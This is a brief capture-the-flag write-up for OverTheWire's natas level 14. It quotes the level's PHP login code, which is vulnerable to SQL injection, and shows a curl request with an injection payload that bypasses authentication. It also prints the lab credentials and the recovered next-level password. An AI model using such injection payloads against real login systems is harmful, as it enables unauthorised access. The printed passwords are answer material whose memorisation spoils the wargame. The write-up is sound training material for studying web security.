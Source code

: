 # natas level14
natas is CTF with web application.
password will be stored in `/etc/natas_webpass/natas14`.

## using credential is below.
- User:natas14
- Pass:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

## using tools.
- shell(curl, base64, etc)
- lynx
- exiftool
check web site by lynx.
`lynx http://natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1@natas14.natas.labs.overthewire.org`

And I check source of this website, this has simple sql injection vulnerability.
~~~
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
if(array_key_exists("debug", $_GET)) {
   echo "Executing query: $query<br>";
}
~~~
I send following request, and got password!
`curl -X POST 'http://natas14.natas.labs.overthewire.org/index.php?debug' -u natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 -d 'username=oshiba" or "1" = "1"; -- &password=test&submit=Login'`

password:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

